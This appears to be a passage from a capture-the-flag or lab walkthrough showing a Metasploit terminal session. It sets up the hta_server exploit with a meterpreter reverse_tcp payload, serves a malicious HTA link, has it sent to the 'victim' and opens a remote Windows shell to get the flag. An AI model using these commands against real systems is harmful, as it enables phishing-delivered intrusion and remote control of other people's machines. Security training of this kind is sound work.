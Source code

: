                 ```ps1 title="Terminal" hl_lines="16"
                msf6 > use exploit/windows/misc/hta_server
                [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
                msf6 exploit(windows/misc/hta_server) > set lhost 10.18.80.57
                lhost => 10.18.80.57
                msf6 exploit(windows/misc/hta_server) > set lport 443
                lport => 443
                msf6 exploit(windows/misc/hta_server) > set srvhost 10.18.80.57
                srvhost => 10.18.80.57
                msf6 exploit(windows/misc/hta_server) >  set payload windows/meterpreter/reverse_tcp
                payload => windows/meterpreter/reverse_tcp
                msf6 exploit(windows/misc/hta_server) > exploit
                [*] Exploit running as background job 0.
                [*] Exploit completed, but no session was created.

                [*] Started reverse TCP handler on 10.18.80.57:443 
                msf6 exploit(windows/misc/hta_server) > [*] Using URL: http://10.18.80.57:8080/hmMe6s.hta
                [*] Server started.
                ```
            - Step 8: We will notice a highlighted url like the above terminal, send it to the victim website
            ![Alt text](image-6.png)
            - Step 9: Find sessions to work by: `session -i` command
            - Step 10: Get flag
                - Now, go back to the terminal with metasploit and we see that we have successfully connected to the windows shell
